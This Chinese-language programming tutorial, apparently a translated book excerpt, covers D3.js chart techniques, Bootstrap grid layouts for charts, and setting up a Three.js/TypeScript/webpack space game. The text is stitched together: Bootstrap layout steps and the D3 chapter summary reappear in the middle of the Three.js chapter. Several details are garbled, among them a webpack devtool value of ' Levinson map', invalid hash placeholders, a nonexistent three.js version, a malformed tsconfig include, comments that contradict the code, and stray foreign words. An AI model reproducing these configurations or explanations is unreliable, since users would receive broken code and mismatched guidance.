> 正如工业设计与建筑领域所言：“形式追随功能。”运用数据可视化传达信息是艺术与科学的结合。

你必须时常思考何种可视化能帮助你更好地理解发现。同时需考虑所用媒介：动画在网络资源与电视中效果显著，但在报纸或书籍中并不适用。要时刻寻找潜在创意，当机会出现时勇于尝试新方法。因此，以下要点将高度概括核心内容：

- 当你需要完全掌控数据可视化的创意与技术实现时，D3是理想工具。
- D3应用的样式设置与内容交付方式与传统网页内容一致。
- HTML、CSS、JavaScript、SVG、Canvas以及React或Svelte等框架，共同构成了我们创建丰富网络界面的技术与工具生态系统。
- 创建数据可视化时，最常用的SVG形状包括线条、矩形、圆形、椭圆、路径和文本。
- 要熟练使用D3，必须掌握这些形状的基本属性及其关键特性。
- 使用D3编写JavaScript时，需熟悉两个核心概念：方法链与对象操作。
  1. 方法链是一种对同一对象连续调用多个方法的设计模式。
  2. D3中的数据集通常以对象数组形式组织。JavaScript提供了多种访问和操作这些数据结构中数据的方法。
- 作为D3开发者，深入理解数据可视化最佳实践至关重要。你可以通过多种资源开启学习之旅。

## 进阶D3.js技巧与策略

许多开发者偏爱D3.js而非其他数据可视化工具，因为它遵循网页标准。这些标准能帮助操控图表外观。前端开发者无需学习新编程语言或技术，即可直接开展数据驱动的探索。

本节将分享一些技巧与策略，帮助你在D3图表制作中脱颖而出。

### 过渡链式调用

过渡是D3.js最受欢迎的功能之一。它易于设置，可适应任何类型的数据或预期的美学效果。但你知道吗？通过单个事件，你可以按顺序链接多个过渡效果。

过渡链式调用允许你通过实现类似复杂动画的过渡，为数据添加新的交互层次。与一次性完成的传统过渡不同，每个链式过渡都会等待前一个完成后才开始下一个。

过渡链在演示未来影响或强调演示中特定要点时尤为实用。

让我们通过一个典型示例来理解：

假设需要将一个粉色圆形向右移动、变为黄色，然后放大尺寸。

```
<!DOCTYPE html>
<meta charset="utf-8">
<body>
<!-- load the d3.js library -->
<script src="https://d3js.org/d3.v6.min.js"></script>
<script>
var SVG = d3.select("body") // 选择body元素
    .append("SVG")          // 向body追加SVG元素
    .attr("width", 760)     // 设置宽度为760像素
    .attr("height", 500)    // 设置高度为500像素
    .append("circle")       // 向SVG追加圆形
    .style("fill", "Pink")  // 用粉色填充圆形
    .attr("r", 40)          // 设置半径为15像素
    .attr('cx', 20)         // 将圆形水平位置设为20
    .attr('cy', 200)        // 将圆形垂直位置设为200
    .transition()           // 应用过渡效果
    .duration(4500)         // 持续时间为4500毫秒
    .attr('cx', 950)        // 新水平位置设为950
    .attr('r', 80)          // 新半径设为80像素
    .style('fill', "Yellow"); // 新颜色设为黄色
</script>
</body>
```

### 使用D3.js为对象添加网页链接

单一图表很少能呈现完整故事。为组件添加点击链接，引导用户深入探索特定主题，有时极具价值。网页链接应方便访客自然探索数据，或提供额外资源帮助他们理解图表。

例如，图表中可能包含一个代表所有前端开发者的组件。该组件还可链接到详细介绍该大类别下各类前端开发者的页面。


我们需要用到 `<a>` 标签和 `xlink` 关键字。在 HTML 文件中，超链接由 `<a>` 标签定义。被 `<a>` 标签包裹的内容将变成指向另一个网站的超链接。因此，我们将先创建一个 `<a>` 标签，然后将我们的 D3.js 和 SVG 对象附加到它上面。

我们将让计算机忽略文本，只与矩形元素交互，而不是将文本和矩形都链接到链接上。在绘制文本时，我们可以使用 `pointer-events` 样式来实现这一点。当我们将其设置为 `none` 时，我们是在告诉鼠标，当它悬停在文本上时，忽略与文本的任何潜在交互，而不是在下方的矩形上注册链接。

```
<!DOCTYPE html>
<meta charset="utf-8">

<body>

<!-- load the d3.js library -->
<script src="https://d3js.org/d3.v6.min.js"></script>

<script>

var width = 449;
var height = 249;
var word = "frontend";

var holder = d3.select("body")
    .append("svg")
    .attr("width", width)
    .attr("height", height);

// draw a rectangle
holder.append("a")
    .attr("xlink:href", "http://en.wikipedia.org/wiki/"+word)
    .append("rect")
    .attr("x", 200)
    .attr("y", 100)
    .attr("height", 200)
    .attr("width", 400)
    .style("fill", "green")
    .attr("RX", 50)
    .attr("ry", 50);

// draw text on the screen
holder.append("text")
    .attr("x", 300)
    .attr("y", 200)
    .style("fill", "blue")
    .style("font-size", "30px")
    .attr("dy", ".35em")
    .attr("text-anchor", "middle")
    .style("pointer-events", "none")
    .text(word);

</script>

</body>
```

当然，除了提供链接，我们还必须指示它去哪里。我们通过将标签的 `xlink:href` 属性指向特定页面来实现这一点。`Xlink` 代表 XML 链接语言，是一种用于在 XML 文档中创建超链接的语言。在我们的情况下，我们将指定用户应导航到的 URL。

### 将 HTML 表格整合到你的图表中

虽然 D3 最常用于生成图表，但它也可以渲染 HTML 表格。表格可以单独添加，也可以与图表一起添加。当你在图表中包含表格时，你的用户可以更详细地检查每个数据点，并理解构成图表的实际值。

HTML 表格由行、列和每个单元格中的数据组成。只需使用适当的 HTML 标签按逻辑顺序布局行和列，即可在网页上正确插入表格。

关于简单表格实现的示例，请看下面的 HTML 代码：

```
<!DOCTYPE html>
<body>
    <table border="1">
        <tr>
            <th>Header 2</th>
            <th>Header 4</th>
        </tr>
        <tr>
            <td>row 2, cell 2</td>
            <td>row 4, cell 5</td>
        </tr>
        <tr>
            <td>row 2, cell 1</td>
            <td>row 2, cell 2</td>
        </tr>
    </table>
</body>
```

`<table>` 标签用于封装整个表格；`<tr>` 标签用于分隔每一行。每行有两个条目，对应两列。除了作为标题的第一行外，每个单元格的数据都包含在 `<td>` 标签中。标题中的特殊标签 `<th>` 使其加粗并居中。

### 点击即可显示或隐藏图表部分

最好的图表允许人们从全局和精细的角度观察数据。

允许用户隐藏特定数据片段以便更好地查看关系或模式是实现此目的的一种简单方法。当同一图表上的数据点越多，此功能就越有用！

让我们创建一个折线图，你可以通过点击底部的图例来控制每条线的可见性。

实施此技术有两个主要方面。首先，我们必须确定我们希望通过点击显示或隐藏的元素。之后，我们必须为可点击对象提供一个属性，使其能够识别鼠标点击，然后运行代码来显示或隐藏我们标记的元素。

### 使用 IF 语句进行筛选

你可能希望根据设定的标准来突出显示某些数据点，而不是隐藏它们。这对于在大型数据集中搜索异常值或超过特定阈值的数据（例如发生在特定日期的事件）非常有用。

使用 D3.js 可以实现这一点，因为它支持在图表构建过程中使用普通的 JavaScript 语句。考虑以下场景：我们想要创建一个散点图，显示所有值大于 200 的点。

```
// Add the scatterplot
SVG.selectAll("dot")
    .data(data)
    .enter().append("circle")
    .attr("r", 5)
    .style("fill", function(d) {
        if (d.close <= 300) {return "Pink"}
        else { return "blue" }
    })
    .attr("cx", function(d) { return x(d.date); })
    .attr("cy", function(d) { return y(d.close); });
```

像这样的技巧和策略是区分 D3.js 开发者和专家的关键。每一个技巧都将增强图表的交互性和丰富性，使你能够更好地满足客户的需求。

## 将 D3.JS 与 BOOTSTRAP 结合使用

虽然在网页上显示数据本身就是一个很好的目标，但通常需要将可视化与额外信息链接起来。无论好坏，创建网站现在几乎任何人都能做到，我不会声称自己有任何设计或艺术能力。然而，我们发现使用 Bootstrap 是调整网页结构的好方法；它易于使用，并且有广泛的功能可以为你的网站带来额外的功能，以及在多个页面之间保持一致的“感觉”。

### BOOTSTRAP 到底是什么？

Twitter Bootstrap 是一个用于构建网站和在线应用程序的免费框架。它包括用于排版、表单、按钮、图表、导航和其他界面元素的设计模板，以及 JavaScript 扩展。

Mark Otto 和 Jacob Thornton 在 Twitter 创建了 Bootstrap，作为一个在内部技术之间实现一致性的框架。因为它的目标是为内容提供结构，所以“框架”这个词可以说是最具描述性的。也许与 D3.js 为数据提供结构的方式类似。

以下是 Bootstrap 的一些最基本功能：

- 界面组件
- 布局网格

### 界面组件

还有许多可用的界面组件。其中包括标准按钮、表格、菜单、下拉按钮和导航工具。

### 布局网格

Bootstrap 提供了四种常见的像素宽度网格布局方案，可帮助你快速搭建页面结构。这使你可以以最少的努力设计和实现你想要放在页面上的内容。你可以修改任何预设值，也可以使用“流体”行选项，它使用百分比而不是固定的像素值来动态调整列的宽度。正是这一功能最初吸引了我使用 Bootstrap，尽管我是在为一个简单的任务使用一个复杂的工具，但它表现出色。

### 在你的 HTML 代码中实现 BOOTSTRAP

Bootstrap 是一个非常灵活的框架。我们可能会误以为安装会很困难。为了简单起见，我们将使过程既简单又有效。

你需要将 `bootstrap.js` 文件（或精简版 `bootstrap.min.js`）复制到你的脚本可以找到并加载它的位置。同时，添加一行代码来导入 `jquery.js` 文件（这是 Bootstrap 的依赖项，虽然它没有被广泛讨论）。如果你已将 `bootstrap.min.js` 文件复制到 `js` 目录中，以下两行就足够了：

```
<script src="http://code.jquery.com/jquery.js"></script>
<script src="js/bootstrap.min.js"></script>
```

如果我们愿意，我们可以像加载 `jquery.js` 一样加载 Bootstrap（每次加载页面时都从互联网加载）。我们可以使用以下代码来实现：

```
<script src="http://code.jquery.com/jquery.js"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/js/bootstrap.min.js"></script>
```

你还需要将 `bootstrap.css`（或精简版 `bootstrap.min.css`）复制到你的脚本可以找到并加载它的位置。通过在 head 部分加载脚本的代码行，以下代码显示了它从 CSS 目录加载。

```
<head>
<link href="css/bootstrap.min.css" rel="stylesheet" media="screen">
</head>
```

我们也可以从网络获取它，如下所示：

```
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
</head>
```

这应该就涵盖了所有内容！有许多不同的插件脚本可以加载，使你的网页能够执行花哨的功能，但我们将保持基础。

## 使用网页显示多个图表

我们将首先假设我们希望能够在同一个网页上显示两个不同的图表。我们给出的例子显然是人为设计的，但我们要记住，我们关注的是方法，而不是内容。

首先创建一个包含两个图表的页面。


这出奇地简单，我们可以从下面提到的简单图表开始：

```javascript
// Adds the SVG canvas
var chart2 = d3.select("body")
  .append("svg")
  .attr("width", width + margin.left + margin.right)
  .attr("height", height + margin.top + margin.bottom)
  .append("g")
  .attr("transform", "translate(" + margin.left + "," + margin.top + ")");

// Get the data
d3.csv("data2.csv", function(error, data) {
  data.forEach(function(d) {
    d.date = parseDate(d.date);
    d.close = +d.close;
  });

  // Scale the range of the data
  x.domain(d3.extent(data, function(d) { return d.date; }));
  y.domain([0, d3.max(data, function(d) { return d.close; })]);

  // Add the valueline path.
  chart2.append("path")
    .attr("class", "line")
    .attr("d", valueline(data));

  // Add the X Axis
  chart2.append("g")
    .attr("class", "x-axis")
    .attr("transform", "translate(0," + height + ")")
    .call(xAxis);

  // Add the Y-Axis
  chart2.append("g")
    .attr("class", "y-axis")
    .call(yAxis);

});
```

### 按锚点相同顺序排列图表

关于这些图表，我想指出的第一点是，它们都“连接”到我们网站的同一个位置。两个图表都选择了网页的 body，然后向其中添加了一个 SVG 元素。

```javascript
var chart2 = d3.select("body")
    .append("svg")
```

这导致图表被附加到同一个锚点。就像页面上的文本换行一样，如果我们把浏览器的窗口限制在少于两个图表并排的宽度，浏览器会自动将其中一个图表滑动到另一个图表下方。

### 使用不同的锚点排列图表

我们将使用 ID 选择器来更精确地控制图表放置的位置。HTML 页面中的 ID 选择器是一种命名锚点的方法。它们被定义为“HTML 元素的唯一标识符”。这意味着我们可以在网站上指定一个位置，然后将图表分配给它。这只需在 HTML 代码的相关位置（这里是在 `<style>` 和 `<body>` 部分之间）插入 div 标签即可实现。

```html
</style>
<div id="area1"></div>
<div id="area2"></div>
<body>
```

剩下的就是让每个图表将自身附加到其中一个 ID 选择器上。如 continuación 所示，这可以通过将 JavaScript 代码中被选中的部分替换为相应的 ID 选择器来完成：

```javascript
var chart1 = d3.select("#area1")
    .append("svg")
… 以及 …
var chart2 = d3.select("#area2")
    .append("svg")
```

为了让 HTML 能够识别代码中的 ID 选择器（除了我们在设置 `id="area1"` 时的情况），我们必须在它们前面加上井号 (#)。

### Bootstrap 中的网格布局是如何工作的？

Bootstrap 中的网格布局将页面分为行和列。可以将一个网页看作 10-12 列宽，每行水平延伸。每一列都作为水平分割内容的容器。

每列的宽度由列标识符末尾的一个数字决定。这是以列数为单位的行宽度。例如，`col-md-4` 将是一个宽度为 4 个单位的单列（记住，一行最多可能有 12 个单位宽）。

例如，为了创建一个包含一个 `col-md-6` 和两个 `col-md-3` 的单行示例，我们将从以下 HTML 代码开始：

```html
<div class="row">
  <div class="col-md-6"></div>
  <div class="col-md-3"></div>
  <div class="col-md-3"></div>
</div>
```

向该结构添加内容所需的全部操作就是将我们的网页组件放置在 `<div class="col-md-x">` 和 `</div>` 标签之间。使用 Bootstrap，您可以排列许多 d3.js 图表。

在前面的段落中，我们学习了如何利用 ID 选择器将 d3.js 图表链接到网站的特定区域。我们还看到了如何使用 Bootstrap 将网页组织成不同区域。现在我们将结合这两个示例，为使用 Bootstrap 创建的区域分配 ID 选择器。

我们必须确保 `bootstrap.min.js` 和 `bootstrap.min.css` 文件位于正确的位置。然后，在文件顶部（就在 `<style>` 元素之前），添加使用 `bootstrap.min.css` 的代码。

```html
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
</head>
```

然后，在加载 d3.js 文件的行之后，直接包含加载 `jquery.js` 和 `bootstrap.min.js` 脚本的行。

```html
<script src="http://code.jquery.com/jquery.js"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/js/bootstrap.min.js"></script>
```

为了保持简单，我们将构建一个仅包含一行和两个 `col-md-6` 元素的 Bootstrap 布局。要实现这一点，应将以下代码放置在 `</style>` 标签之后和 `<body>` 标签之前。

```html
<div class="row">
  <div class="col-md-6"></div>
  <div class="col-md-6"></div>
</div>
```

现在，我们将 ID 选择器巧妙地融入到刚才输入的 div 中。回顾前两个选择器的代码：

```html
<div id="area1"></div>
<div id="area2"></div>
```

可以将它们如下添加到我们的行和列中：

```html
<div class="row">
  <div class="col-md-6" id="area1"></div>
  <div class="col-md-6" id="area2"></div>
</div>
```

下一步是将 `d3.select` 从选择网页的 body 切换为选择我们的两个新 ID 选择器 area1 和 area2。

```javascript
var chart1 = d3.select("#area1")
    .append("svg")

以及

var chart2 = d3.select("#area2")
    .append("svg")
```

为了演示布局方案的灵活性，我们可以更改行/列布局部分，使我们的图表被分为两个部分，中间有一个较小的第三部分来总结图表。

如果我们从已经输入的列 ID 选择器开始：

```html
<div class="row">
  <div class="col-md-6" id="area1"></div>
  <div class="col-md-6" id="area2"></div>
</div>
```

将列改为 `col-md-5`，并在中间插入一个包含一些文字的 `col-md-2`（记住，列的总数必须相加等于 12）。

```html
<div class="row">
  <div class="col-md-5" id="area1"></div>
  <div class="col-md-2">
    A graph on the left depicts the 'ABC' company's
    expected profits.
    On the right is the anticipated cost of production
    as the number of Objects is increased.
    Clearly we will be RICH!
  </div>
  <div class="col-md-5" id="area2"></div>
</div>
```

结果将是一个带有简单 Bootstrap 布局的图表，包含图表和文本。

**一个更复杂的 Bootstrap 布局示例：** 如前所述，值得查看一个更复杂的 Bootstrap 布局示例，以了解其工作原理以及它能为您提供的可能性。

我们将创建的示例代码布局将类似于这样。虽然列和行的嵌套使其看起来更复杂，而且最终结果只有 5 个独立部分，但如果您从正确的地方开始并逐步构建，其实并不难实现。

我们从中间开始，向外扩展。首先考虑并排的两个 `col-md-4`。对于这些，代码仅为：

```html
<div class="row">
  <div class="col-md-4"></div>
  <div class="col-md-4"></div>
</div>
```

在该行正下方有一个单独的 `col-md-8`。该部分的代码为：

```html
<div class="row">
  <div class="col-md-8"></div>
</div>
```

代码简单来说就是一系列部件：

```html
<div class="row">
  <div class="col-md-4"></div>
  <div class="col-md-4"></div>
</div>
<div class="row">
  <div class="col-md-8"></div>
</div>
```

在编码方面，新的 `col-md-8` div 将包裹所有现有代码。

```html
<div class="col-md-8">
  <div class="row">
    <div class="col-md-4"></div>
    <div class="col-md-4"></div>
  </div>
  <div class="row">
    <div class="col-md-8"></div>
  </div>
</div>
```

`col-md-8` 位于一个巨大的 `col-md-4` 的左侧：这就需要我们在 `col-md-8` 之前添加另一个 `col-md-4` div。

```html
<div class="col-md-4"></div>
<div class="col-md-8">
  <div class="row">
    <div class="col-md-4"></div>
    <div class="col-md-4"></div>
  </div>
  <div class="row">
    <div class="col-md-8"></div>
  </div>
</div>
```


# 第2章

## 应用程序开发 I

## 本章内容

- 使用 Three.js 开发游戏
- 基础知识与模块

在上一章中，我们了解了 Three.js 的基本概念及其特性、优点和缺点。该章还简要介绍了 Three.js 中使用的基础知识。现在，我们已经了解了 Three.js 的特性；因此，本章将探讨使用 Three.js 进行应用程序开发。那么，话不多说，让我们开始第一个 Three.js 项目吧。

就在几年前，构建和发布电子游戏的唯一选择是挑选一个游戏引擎，例如 Unity 或 Unreal，学习其语言，然后将游戏压缩并发布到你选择的平台上。

试图通过浏览器向他人提供游戏似乎是不可行的。

令人惊讶的是，由于硬件加速等更好的浏览器技术已在所有主流浏览器中变得易于获取、JavaScript 性能的变化，以及可用处理能力的持续增长，为浏览器创建交互式游戏体验正变得越来越普遍。

## 使用 Three.js 构建应用程序

Three.js 在 GitHub 上的项目描述中被定义为"一个易于使用、轻量级、跨浏览器、通用的 3D 工具包"。

作为开发者，Three.js 让我们将 3D 对象和模型绘制到屏幕上变得非常简单。没有它，我们就必须直接与 WebGL 交互，虽然这并不困难，但即使是最简单的游戏开发项目也可能需要很长时间。传统的"游戏引擎"由多个组件构成。例如，Unity 和 Unreal 不仅提供了将内容渲染到屏幕上的机制，还提供了大量其他功能，如网络和物理。

另一方面，Three.js 采用了更受限制的方法，排除了物理和网络等功能。然而，由于其简洁性，它更易于学习，并且在它最擅长的方面更高效，例如将对象绘制到屏幕上。

它还包含丰富的示例，可用于学习如何将各种对象绘制到屏幕上。最后，它允许我们以简单且原生的方式将模型加载到场景中。

如果你不希望用户必须从应用商店下载应用或安装任何东西才能玩你的游戏，Three.js 可能是一个不错的解决方案。如果你的游戏基于浏览器，你就拥有了最低的进入门槛，这只能是一件好事。

## 使用 Three.js 设计游戏

在本节中，我们将通过创建一个包含着色器、模型、动画和游戏逻辑的游戏来探索 Three.js。这个想法非常直接。我们正在驾驶一艘飞船穿越一个星球，任务是收集能量晶体。我们还必须通过收集护盾增强器并避免场景中岩石的过多伤害来跟踪飞船的健康状况。

旅程结束时，飞船会返回天空中的母舰，如果玩家选择**下一关**，他们将获得额外机会，这次飞船需要穿越更长的路径。

随着用户在游戏中的进展，飞船的速度会逐渐增加，迫使他们更加努力地躲避岩石并获取能量晶体。

要制作这样的游戏，我们首先需要回答以下问题：

- 如何让飞船在水体上无限向前推进？
- 如何判断飞船与其他物品是否发生碰撞？
- 如何制作一个同时在桌面和移动设备上工作的用户界面？

当我们完成这个游戏时，我们将克服这些障碍。

#### 代码教程

然而，在开始编码之前，我们首先需要温习一些基础理论，特别是关于如何在游戏中创建运动感的知识。

#### 创造运动感

想象你在现实生活中驾驶一架直升机，正在追赶地面上的一个物体。该物体以逐渐增加的速度移动。你必须逐渐增加你驾驶的直升机的速度才能跟上。

如果直升机或地面上的物体没有速度限制，只要你愿意，就可以一直这样持续下去。

在创建跟随物体的游戏时，我们当前的场景也是如此，应用相同的标准是很有吸引力的。也就是说，随着物体在世界空间中加速，更新跟随在后的摄像机的速度。然而，这立即带来了一个问题。本质上，每个玩这个游戏的人都会在手机或电脑上进行。这些是资源有限的机器。如果我们尝试在摄像机移动时生成无限数量的对象，然后移动摄像机，我们最终将耗尽所有可用资源，导致浏览器标签页无响应或崩溃。

还必须创建一个平面（扁平的 2D 对象）来表示海洋。这样做时，我们必须包含海洋的尺寸。然而，我们不能创建一个无限大的平面，也不能创建一个巨大的平面然后希望用户永远不会深入到我们的关卡中以致走出平面。那是糟糕的设计，期望人们不会玩太多游戏而遇到问题似乎有违直觉。

#### 在有限约束内实现无限运动

我们保持摄像机静止，并让环境围绕它移动，而不是让它无限地向一个方向移动。这有诸多优点。一个优点是我们始终知道飞船的位置，因为它的位置不会随时间变化；它只是左右移动。这使我们能够快速判断物体是否在摄像机后方，可以被清除以节省资源。

另一个优点是，我们可以在远处的任何一点生成任何物体。这意味着随着物体接近玩家，其他物品或物体将出现在远处，在玩家的视野之外。

这些物品在从视野中消失时会被从场景中移除，无论是因为玩家与它们碰撞，还是因为它们从玩家身边经过。

要实现这种效果，我们需要做两件事：第一，我们必须沿深度轴程序性地移动每个物体，使它们向摄像机移动。第二，我们必须为我们的水面指定一个将被偏移的值，并且我们必须随时间增加这个值。

这样，水面看起来会移动得越来越快。

现在我们已经找到了如何让飞船在场景中向前推进的方法，让我们继续设置我们的项目alin项目。

## 配置游戏项目

让我们开始这个游戏吧！第一步是配置我们的开发环境。在这个例子中，我们选择了 TypeScript 和 Webpack。由于本章不是关于这些技术的优点，我们将只进行简要概述，不会深入讨论。

当我们使用 Webpack 构建项目并保存文件时，它会检测到我们的文件已更改，并会用保存的修改重新加载我们的浏览器。

这让你能够集中精力，因为它减少了在每次更改时手动重新加载浏览器的需要。当我们启动项目时，可以使用 three-minimizer 等插件来减小我们包的大小。当我们部署包时，也可以使用 three-minimizer 等插件来减小其大小。

在这种情况下，使用 TypeScript 确保我们的项目是类型安全的。在处理 Three.js 的某些内部类型（如 Vector3 和 Quaternion）时，我们会发现这非常有优势。知道我们正在为变量分配正确类型的值是非常方便的。

`col-md-4`和复杂的`col-md-8`必须在单独的行中。到目前为止，所有代码都包含在一个 row div 中。

```html
<div class="row">
  <div class="col-md-4"></div>
  <div class="col-md-8">
    <div class="row">
      <div class="col-md-4"></div>
      <div class="col-md-4"></div>
    </div>
    <div class="row">
      <div class="col-md-8"></div>
    </div>
  </div>
</div>
```

最后，在我们现有工作的上方，我们需要添加另一个带有`col-md-12`的行。我们必须再次在我们的当前代码之前添加行和列，使其在页方显示在它上方。

```html
<div class="row">
  <div class="col-md-12"></div>
</div>
<div class="row">
  <div class="col-md-4"></div>
  <div class="col-md-8">
    <div class="row">
      <div class="col-md-4"></div>
      <div class="col-md-4"></div>
    </div>
    <div class="row">
      <div class="col-md-8"></div>
    </div>
  </div>
</div>
```

在本章中，我们了解了 D3 的概述，以及它如何特别适合为现代浏览器应用程序制作的 Web 开发者。数据标准、数据管理方法以及 JavaScript 和 HTML 的更好性能都促成了这一点。D3.js 只是数千个 JavaScript 库中的一个，但它代表了我们对网页能够实现什么的期望的转变。虽然你可能认为 D3 是用于创建高度处理的静态数据集的一次性数据可视化工具，但它实际上具有更多的威力和能力。它利用现代网络标准来制作动态的数据驱动出版物。这些文档将帮助你使用可重用且可靠的方式与任何受众沟通。D3 有诸多优点，其中之一是它被定位为现代 Web 开发的库。然而，D3 应用程序开发提供了更多：一旦你理解 D3 用于操作、计算和表示数据的过程和函数，你会发现这些方法将转化到你在 Web 开发所有方面的工作中，无论是处理传统的布局和设计问题，还是更复杂的交互式应用程序。


对于 UI，我们还将使用 Materialize CSS。这个框架将方便我们构成本用户界面的几个按钮和卡片。

第一步，我们需要创建一个新文件夹来开始项目工作。文件夹创建好后，接下来我们需要在文件夹中创建 package.json，其中将包含以下内容。

```
{
    "dependencies": {
        "materialize-css": "2.0.0",
        "nipplejs": "0.7.0",
        "three": "0.137.2.0"
    },
    "devDependencies": {
        "@types/three": "0.137.2.0",
        "@yushijinhun/three-minifier-webpack": "0.3.1",
        "clean-webpack-plugin": "4.0",
        "copy-webpack-plugin": "11.0.0",
        "html-webpack-plugin": "5.5.0",
        "raw-loader": "4.0.2",
        "ts-loader": "9.3.0",
        "typescript": "4.6.4",
        "webpack": "5.72.0",
        "webpack-cli": "4.9.2",
        "webpack-dev-server": "4.9.0",
        "webpack-glsl-loader": "git+https://github.com/grieve/webpack-glsl-loader.git",
        "webpack-merge": "5.8.0"
    },
    "scripts": {
        "dev": "webpack serve --config ./webpack.dev.js",
        "build": "webpack --config ./webpack.production.js"
    }
}
```

然后在命令窗口中输入 `npm i` 将包安装到你的新项目中。

### 添加 Webpack 文件

我们现在需要为项目构建三个文件：基础 Webpack 配置、开发配置和生产配置。

在你的项目文件夹中，创建一个 webpack.common.js 文件并粘贴以下配置：

```
const HtmlWebpackPlugin =
require("html-webpack-plugin");
const CopyPlugin = require("copy-webpack-plugin");
module.exports = {
    plugins: [
        // Build an index.html file that contains the
        appropriate package identifier and links to our
        scripting..
        new HtmlWebpackPlugin({
            template: 'html/index.html'
        }),
        // Copy gameplay components to the webpack results
        from our fixed folder.
        new CopyPlugin({
            patterns: [
                {from: 'static', to: 'statics'}
            ]
        }),
    ],
    // Our game's starting point
    entry: './Spacegame.ts',
    module: {
        rules: [
            {
                // Insert our GLSL shaders as HTML.
                test: /.(glsl|vs|fs|vert|frag)$/, exclude: /node_
                modules/, use: ['raw-loader']
            },
            {
                // Analyze our typescript and transport it to
                Javascript with this loader.
                test: /.tsx?$/,
                use: 'ts-loader',
                exclude: /node_modules/,
            }
        ],
    },
    resolve: {
```

```
extensions: ['.tsx', '.ts', '.js'],
},}
```

创建一个 `webpack.dev.js` 文件，并向其中添加这些详细信息。Webpack 开发服务器的热重载功能设置如下：

```
const { merge } = require('webpack-merge')
const common = require('./webpack.common.js')
const path = require('path');
module.exports = merge(common, {
  mode: 'development', // The source should not be minified.
  devtool: ' Levinson  map', // For easy development, use the source map.
  devServer: {
    static: {
      directory: path.join(__dirname, './dist'),
      // From this location, static files are served.
    },
    hot: true, // Whenever the code changes, refresh the site.
  },
})
```

最后，用以下信息构建一个 `webpack.production.js` 文件：

```
const { merge } = require('webpack-merge')
const common = require('./webpack.common.js')
const path = require('path');
const ThreeMinifierPlugin = require("@yushijinhun/three-minifier-webpack");
const {CleanWebpackPlugin} = require("clean-webpack-plugin");
const threeMinifier = new ThreeMinifierPlugin();
module.exports = merge(common, {
  plugins: [
    threeMinifier, // Minifies our three.js code
    new CleanWebpackPlugin() // Between builds, it cleans up our 'dist' folder.
  ],
})
```

```
resolve: {
    plugins: [
        threeMinifier.resolver,
    ]
},
mode: 'production', // Reduce the size of our
output
output: {
    path: path.resolve(__dirname, 'dist'),
    filename: '[name].[f_hash:8].js', // Our
product would contain a one-of-a-kind hashing, forcing
our users to download updates as soon when they become
accessible.          sourceMapFilename: '[name].[f_
hash:10].map',
    chunkFilename: '[id_number].[f_hash:10].js'
},
optimization: {
    splitChunks: {
        chunks: 'all',
// divide our code into smaller parts to assist
caching for our clients},},})
```

### TypeScript 环境配置

下一步是设置我们的 TypeScript 环境，以便我们可以从 JavaScript 文件中使用导入。创建一个 `tsconfig.json` 文件并填写以下信息：

```
{"compilerOptions":
{"moduleResolution": "node",
 "strict": true,
 "allowJs": true,
 "checkJs": false,
 "target": "es2017",
 "module": "commonjs"},
 "include": ["@@/@.ts"]
}
```

我们的开发环境已完全设置好。现在是时候开始为我们的玩家开发一个美丽而可信的环境来探索了。

## 设定游戏基调

以下元素构成了我们的场景：

- 实际场景
- 背景物体（用户游戏区域两侧的岩石）：
  - 天空水面
- 宇宙飞船
- "**挑战行**"是容纳水晶、岩石和盾牌物品的行列。

我们的大部分工作将在名为 `Spacegame.ts` 的文件中完成，但我们也会将游戏元素划分到不同的文件中，以免最终出现一个巨大的文件。现在是时候创建 `Spacegame.ts` 文件了。

### 设定场景氛围

第一步是建立一个场景，以便 Three.js 可以渲染某些内容。我们将向 `Spacegame.ts` 中添加以下行来创建我们的场景，并在场景中设置一个 PerspectiveCamera，以便我们可以查看正在发生的事情。最后，我们将创建一个渲染器的引用，稍后我们将为其赋值。

```
export const scene = new Scene()
export const camera = new PerspectiveCamera(70,
window.innerWidth / window.innerHeight, 0.5, 9000)
// Our three renderer
let renderer: WebGLRenderer;
```

对于我们的场景，我们还需要使用渲染和动画循环。动画循环将用于在需要时在屏幕上移动项目，渲染循环将用于向屏幕绘制新帧。

现在让我们在我们的 `Spacegame.ts` 中开发 `render` 函数。因为这个函数只是请求一个动画帧，然后生成场景，所以一开始它会看起来是空的。我们需要动画帧的原因有很多，但其中一个最重要的原因是，如果用户切换标签页，我们的游戏将会暂停，从而提高性能并可能节省设备资源：

```
// Can be viewed here
const animate = () => {
    requestAnimationFrame(animate);
    renderer.render(scene, camera);
}
```

所以现在我们有的是一个空场景，里面有一个相机但没有其他物体。让我们通过添加一些元素（比如水）来使我们的场景更加真实。幸运的是，它有一个水对象示例，我们可以在场景中使用。它具有实时反射效果，而且相当美观；你可以在这里看到。¹

对我们来说幸运的是，这片水将满足我们场景的大部分需求。剩下的只是稍微修改一下水着色器，以便我们可以从渲染循环内部更新它。我们这样做是因为如果我们随时间增加水的粗糙度偏移量，它会给我们速度的印象。这是我们游戏的开场场景，但我们每帧都在增加偏移量，以显示我们下方海洋的速度似乎随着偏移量的增加而增加（尽管宇宙飞船实际上是静止的）。Three.js GitHub 上有这个水对象。我们现在要做的就是对我们的渲染循环进行一个小调整，使这个偏移量可配置，这样我们就可以随时间更新它。

我们将从 Three.js 源代码中获取真实感水三维可视化（Water.js 示例）的副本。该文件将位于项目中的 objects/water.js。

当我们打开 water.js 文件时，我们将看到类似下面提到的代码：

```
mirrorCoord = textureMatrix * mirrorCoord;
vec4 mvPosition = modelViewMatrix * vec4( position,
2.0 );
gl_Position = projectionMatrix * mvPosition;
    #include <beginnormal_vertex>
    #include <defaultnormal_vertex>
    #include <logdepthbuf_vertex>
    #include <fog_vertex>
    #include <shadowmap_vertex>
}'
```


 ```
fragmentShader: /* glsl */
uniform sampler2D mirrorSampler;
uniform float alpha;
uniform float time;
uniform float size;
uniform float distortionScale;
uniform sampler2D normalSampler;
uniform vec3 sunColor;
uniform vec3 sunDirection;
uniform vec3 eye;
uniform vec3 waterColor;
varying vec4 mirrorCoord;
varying vec4 worldPosition;
```

这些是海洋材质的着色器（shaders）。虽然着色器不在主题范围内，但它们简单来说就是我们的游戏将传递给用户计算机的指令，用于指导如何绘制这个特定的对象。我们的着色器代码是用 OpenGL 编写的，也包含在这个文件中，而该文件的其余部分是 JavaScript。

